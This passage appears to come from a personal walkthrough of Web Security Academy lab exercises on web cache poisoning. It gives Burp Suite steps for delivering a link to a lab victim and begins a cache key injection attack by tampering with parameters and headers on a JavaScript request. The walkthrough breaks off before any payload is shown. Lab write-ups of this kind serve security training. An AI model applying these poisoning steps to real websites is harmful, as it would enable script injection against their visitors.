 ```bash
Go to:

https://0a65000b041c54bec1a1784700ec0067.web-security-academy.net/

Click "Deliver link to victim"
Paste the copied URL
OK

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604223328.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604223426.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604223500.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604223514.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604223605.png)

### Cache key injection
```bash

# This lab contains multiple independent vulnerabilities, including cache key injection. A user regularly visits this site's home page using Chrome.

# To solve the lab, combine the vulnerabilities to execute alert(1) in the victim's browser. Note that you will need to make use of the Pragma: x-get-cache-key header in order to solve this lab. 

Refresh the page
Go to: HTTP history
Find:

GET /js/localize.js?lang=en&cors=0 HTTP/1.1

Send to repeater
Change:

GET /js/localize.js?lang=en&cors=0 HTTP/1.1

To

GET /js/localize.js?lang=en&cors=1 HTTP/1.1

Response:

Set-Cookie: session=XtoL0IR2HEwUslxEN99dnKu9HpXXjnL6; Secure; HttpOnly; SameSite=None

Change:

GET /js/localize.js?lang=en&cors=1 HTTP/1.1

To

GET /js/localize.js?lang=en&utm_content=z&cors=1 HTTP/1.1

Note that 'Set-Cookie' is now no longer in the response

Add:

Origin: check.com

```